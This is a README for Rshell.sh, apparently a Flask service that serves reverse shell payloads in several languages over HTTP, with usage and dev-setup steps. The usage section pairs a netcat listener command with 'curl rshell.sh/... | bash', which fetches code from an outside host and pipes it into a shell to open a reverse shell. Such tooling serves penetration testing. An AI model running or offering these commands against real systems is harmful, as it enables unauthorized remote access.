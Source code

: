 # Rshell.sh Reverse Shell Payloads aaS

[Live Site!](https://rshell.sh)

## Overview / How it works

This project is multi-language reverse shell payload generator written in
Python3 using the Flask web framework. The point is to make it easy to quickly
pull reverse shell payloads down from the *cloud* ☁️  to your terminal using
`curl` or `wget`.

### Example Usecase

* Setup you listener:

```
nc -lvnp 1234
```

* Then query [`rshell.sh`](https://rshell.sh) to kick off the reverse shell:

```
curl rshell.sh/127.0.0.1/1234 | bash
```

## Languages Covered

* Bash
* Python
* Perl
* PHP
* Awk

See the project [help page](https://rshell.sh/help) for more information.

## Dev Site Install / Setup

The server-side setup is pretty straight forward and this is run just like any
other flask app. Of course the instructions below are for spinning up the dev
version. Production setup involves extra steps and depends on your hosting
environment.

* First clone the repo:

```
git clone github.com:BlueSquare23/Rshell.sh.git
```

* Then install the required python modules:

```
cd Rshell.sh
virtualenv venv		# Virtual Env Optional
source venv/bin/activate	# Virtual Env Optional
pip3 install -r requirements.txt
```

* Finally, run the project:

```
python3 app.py
```

## Technologies

* Language: [Python 3](https://www.python.org/)
* Web-Framework: [Flask](https://palletsprojects.com/p/flask/)

